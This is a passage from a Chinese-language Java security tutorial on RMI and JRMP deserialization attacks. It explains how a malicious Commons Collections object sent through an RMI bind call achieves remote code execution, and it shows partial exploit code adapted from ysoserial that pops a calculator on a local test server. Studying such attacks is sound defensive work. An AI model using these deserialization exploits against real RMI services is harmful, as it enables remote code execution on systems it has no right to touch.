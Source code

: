 ```java
      // 执行payload
      exploit(registry, command);
   }

}
```

程序执行后将会在`RMI服务端`弹出计算器(`仅Mac系统，Windows自行修改命令为calc`)，`RMIExploit`程序执行的流程大致如下：

1. 使用`LocateRegistry.getRegistry(host, port)`创建一个`RemoteStub`对象。
2. 构建一个适用于`Apache Commons Collections`的恶意反序列化对象(使用的是`LazyMap`+`AnnotationInvocationHandler`组合方式)。
3. 使用`RemoteStub`调用`RMI服务端`的`bind`指令，并传入一个使用动态代理创建出来的`Remote`类型的恶意`AnnotationInvocationHandler`对象到`RMI服务端`。
4. `RMI服务端`接受到`bind`请求后会反序列化我们构建的恶意`Remote对象`从而触发`Apache Commons Collections`漏洞的`RCE`。

**RMI客户端端`bind`序列化：**

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191231154833818.png" alt="image-20191231154833818" style="zoom:50%;" />

上图可以看到我们构建的恶意`Remote对象`会通过`RemoteCall`序列化然后通过`RemoteRef`发送到远程的`RMI服务端`。

**RMI服务端`bind`反序列化：**

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191231155509069.png" alt="image-20191231155509069" style="zoom:50%;" />

具体的实现代码在：`sun.rmi.registry.RegistryImpl_Skel`类的`dispatch`方法，其中的`$param_Remote_2`就是我们`RMIExploit`传入的恶意`Remote`的序列化对象。

## RMI-JRMP反序列化漏洞

`JRMP`接口的两种常见实现方式：

1. `JRMP协议(Java Remote Message Protocol)`，`RMI`专用的`Java远程消息交换协议`。
2. `IIOP协议(Internet Inter-ORB Protocol)` ，基于 `CORBA` 实现的对象请求代理协议。

由于`RMI`数据通信大量的使用了`Java`的对象反序列化，所以在使用`RMI客户端`去攻击`RMI服务端`时需要特别小心，如果本地`RMI客户端`刚好符合反序列化攻击的利用条件，那么`RMI服务端`返回一个恶意的反序列化攻击包可能会导致我们被反向攻击。

我们可以通过和`RMI服务`端建立`Socket`连接并使用`RMI`的`JRMP`协议发送恶意的序列化包，`RMI服务端`在处理`JRMP`消息时会反序列化消息对象，从而实现`RCE`。

**JRMP客户端反序列化攻击示例代码：**

```java
package com.anbai.sec.rmi;

import sun.rmi.server.MarshalOutputStream;
import sun.rmi.transport.TransportConstants;

import java.io.DataOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.net.Socket;

import static com.anbai.sec.rmi.RMIServerTest.RMI_HOST;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * 利用RMI的JRMP协议发送恶意的序列化包攻击示例，该示例采用Socket协议发送序列化数据，不会反序列化RMI服务器端的数据，
 * 所以不用担心本地被RMI服务端通过构建恶意数据包攻击，示例程序修改自ysoserial的JRMPClient：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPClient.java
 */
public class JRMPExploit {

   public static void main(String[] args) throws IOException {
      if (args.length == 0) {
         // 如果不指定连接参数默认连接本地RMI服务
         args = new String[]{RMI_HOST, String.valueOf(RMI_PORT), "open -a Calculator.app"};
```